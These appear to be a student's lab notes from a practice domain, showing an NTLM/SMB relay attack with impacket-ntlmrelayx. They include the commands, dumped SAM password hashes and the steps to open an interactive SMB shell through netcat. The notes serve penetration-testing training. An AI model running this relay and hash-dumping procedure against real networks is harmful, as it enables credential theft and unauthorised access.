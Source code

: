 <br/>
emulate traffic by going to VM1 (has admin accross both) and navigating to attacker. use \\&lt;ip&gt; in address bar<br/>
<br/>
ntlmrelayx passes hash to target machine VM2 connects and dumps SAM hashes<br/>
<br/>
<img height="400" src="image 2.png" width="623"/><br/>
<br/>
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::<br/>
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::<br/>
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::<br/>
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:53dfc04147dd08ee2761f307750ebaeb:::<br/>
Jean Grey:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::<br/>
<br/>
Access enabled... lateral.. vertical.. all the al<br/>
<br/>
CREATING A SHELL<br/>
<br/>
add -i to impacket-ntlmrelayx -tf targets.txt -smb2support &gt;&gt; attempt to get an &quot;interactive&quot;<br/>
<br/>
same process as above<br/>
<br/>
ntlmrelayx<br/>
<br/>
[*] SMBD-Thread-4: Connection from MARVEL/LHOWLETTE@192.168.247.135 controlled, attacking target smb://192.168.247.134<br/>
[*] Authenticating against smb://192.168.247.134 as MARVEL/LHOWLETTE SUCCEED<br/>
[*]<b>Started interactive SMB client shell via TCP on 127.0.0.1:11000</b><br/>
[*] SMBD-Thread-4: Connection from MARVEL/LHOWLETTE@192.168.247.135 controlled, but there are no more targets left!<br/>
<br/>
<br/>
netcat this <b>127.0.0.1:11000</b><br/>
<br/>